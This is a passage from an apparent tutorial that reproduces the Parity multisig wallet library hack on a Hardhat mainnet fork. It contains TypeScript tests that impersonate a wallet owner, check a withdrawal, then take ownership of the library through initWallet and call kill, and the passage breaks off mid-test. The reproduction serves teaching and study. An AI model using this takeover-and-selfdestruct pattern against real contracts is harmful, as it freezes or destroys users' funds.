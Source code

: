 ```typescript
    params: [WALLET_OWNER_ADDR],
  });
  victim = ethers.provider.getSigner(WALLET_OWNER_ADDR);

  wallet = await ethers.getContractAt(
    `Wallet`,
    `0x1C0e9B714Da970E6466Ba8E6980C55E7636835a6`
  );
  walletLib = await ethers.getContractAt(
    `WalletLibrary`,
    `0x863DF6BFa4469f3ead0bE8f9F2AAE51c91A907b4`
  );
});
```

After forking, we imitate an owner of the wallet. This is important because we want to verify if the functionality of the wallet is actually broken after the hack.
First, let's check if the owner can withdraw funds **before** the hack. Withdrawals are done by calling the library's `execute` function with a recipient address and an amount:

```typescript
const withdraw = async () => {
  // make sure it's less than m_dailyLimit so we only need single owner approval
  const withdrawalAmount = ethers.utils.parseEther(`0.000001`)
  const data = walletLib.interface.encodeFunctionData(`execute`, [
    await victim.getAddress(),
    withdrawalAmount,
    [],
  ])
  // will invoke fallback function
  tx = await victim.sendTransaction({
    to: wallet.address,
    data,
  })
  return tx
}

describe('Parity Hack 2', function() {
  it('allows withdrawals before being killed', async function() {
    const balanceBefore = await ethers.provider.getBalance(wallet.address)

    tx = await withdraw()

    const balanceAfter = await ethers.provider.getBalance(wallet.address)
    expect(balanceAfter.lt(balanceBefore), 'withdrawal did not work').to.be.true
  })
})
```

Running `npx hardhat test/parity.ts` runs our test withdrawal and passes the check. As a next step, let's become the owner of the wallet **library** now, kill it and retry the withdrawal.

```typescript
it('breaks withdrawals after being killed', async function() {
  const balanceBefore = await ethers.provider.getBalance(wallet.address)

  // first call initWallet to make us the owner
  tx = await walletLib.initWallet(
    [await attacker.getAddress()],
    1,
    ethers.utils.parseEther(`1`)
  )
  // then kill it
  tx = await walletLib.kill(await attacker.getAddress())

```